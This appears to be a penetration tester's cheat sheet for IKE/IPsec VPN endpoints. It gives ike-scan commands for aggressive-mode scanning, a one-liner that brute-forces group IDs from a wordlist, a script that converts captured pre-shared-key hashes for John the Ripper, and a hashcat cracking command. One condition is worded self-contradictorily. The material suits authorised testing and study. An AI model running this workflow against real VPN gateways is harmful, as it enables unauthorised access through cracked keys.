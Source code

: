 # ike-scan

### Quick and Dirty - Evidence Gathering:

`for ike in $(cat ike-hosts.txt); do echo "[*] Testing $ike"; ike-scan -M -A -n cisco --trans=5,2,1,2 $ike -P; done`

### Obtaining the hash

There are several condition sets which can be used to determine if the group ID is correct for the hash received.

1. On older devices, the hash was only sent with the correct group ID. If you get a hash, but other responses do send the hash, the group ID which solicits hashes is correct.
2. If a response contains a Dead Peer Detection (DPD) flag, but other group IDs do not have DPD, group IDs which solicit DPD responses are correct.
3. Should all group IDs respond with a DPD, the device is patched and there is no way to determine what the group ID should be from outside the device or client.

These cases are only valid for default configurations. If an administrator of the device decided to turn off DPD, you could have a false negative to determine group ID.

`ike-scan -M -A 1.1.1.1 --id=idguess -P`

You can use the following one-liner to brute force for the ID:

`while read line; do (echo "Found ID: $line" && sudo ike-scan -M -A -n $line <IP>) | grep -B14 "1 returned handshake" | grep "Found ID:"; done < /usr/share/seclists/Miscellaneous/ike-groupid.txt`

Use the following [`ikescan2john.py`](http://ikescan2john.py/) script to output it in a format we can crack:

{% code overflow="wrap" %}
```python
#!/usr/bin/env python
# taken from: <https://raw.githubusercontent.com/truongkma/ctf-tools/master/John/run/ikescan2john.py>
"""ikescan2john.py processes ike-scan output files into a format suitable
for use with JtR."""

import sys

def usage():
    sys.stderr.write("Usage: %s <psk-parameters-file> [norteluser]\\n" % \\
                     sys.argv[0])
    sys.exit(-1)

if __name__ == "__main__":
    if len(sys.argv) < 2:
        usage()

    with open(sys.argv[1], "r") as f:
        for line in f.readlines():
            line = line.rstrip().replace(':', '*')
            if len(sys.argv) == 2:
                sys.stdout.write("$ike$*0*%s\\n" % (line))
            elif len(sys.argv) == 3:
                sys.stdout.write("$ike$*1*%s*%s\\n" % (sys.argv[2], line))
            else:
                usage()
```
{% endcode %}

You should be able to crack it with this:

`hashcat -m 5400 ike.hash -a 3 ?a?a?a?a?a?a?a -i -w4 -0`
